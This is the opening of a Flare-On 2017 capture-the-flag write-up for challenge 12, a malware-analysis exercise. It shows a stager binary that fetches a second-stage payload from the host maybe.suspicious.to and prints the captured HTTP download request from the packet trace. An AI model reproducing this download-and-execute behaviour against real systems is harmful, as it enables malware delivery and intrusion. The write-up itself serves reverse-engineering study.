 {% highlight text %}
Sorry, we don't have a challenge for you. We were hacked and we think we lost
it. Its name was "lab10" . The attacker left one binary behind and our
sophisticated security devices captured network traffic (pcap) that may be
related. If you can recover the challenge from this and solve it then you win
the Flare-On Challenge. If you can't then you do not win it.
{% endhighlight %}

## Solution ##

This level alone could have been an entire CTF. It came as 2 files:

  1. an 85KB PE32 file, [`coolprogram.exe`](/static/flareon-2017/12/coolprogram.exe)
  1. a 5.5MB PCAP trace,
     [`20170801_1300_filtered.pcap`](/static/flareon-2017/12/20170801_1300_filtered.pcap)


### Extracting secondstage.exe ###

`coolprogram.exe` is a Borland compiled PE file that is nothing more than a
stager to download and execute the real payload. Using API Monitor, we can trace
that it attempts to connect to FQDN `maybe.suspicious.to`, checking also that
the domain name doesn't point to the localhost

![](/img/flareon-2017/c1de5ea5895e4bb38d54167604de4dff8c75dd14d757d40b1d1992419d085232.png)

The behavior seems consistant with the first TCP stream of the PCAP. However,
the data received seems encoded/encrypted:

{% highlight text %}
GET /secondstage HTTP/1.1
Accept: */*
Accept-Language: en-us
User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 6.1; Trident/6.0)
Host: maybe.suspicious.to
Cache-Control: no-cache

HTTP/1.0 200 OK
Server: SimpleHTTP/0.6 Python/2.7.12
Date: Tue, 01 Aug 2017 17:04:02 GMT
Content-type: application/octet-stream
Content-Length: 119812
Last-Modified: Tue, 01 Aug 2017 14:46:13 GMT

7.=|...WEz.....:&.uBLA.5.su..m..>j.-....4..|.....Mu%R{.......U..(Fl.;./.....QM.G...O
[...]
{% endhighlight %}
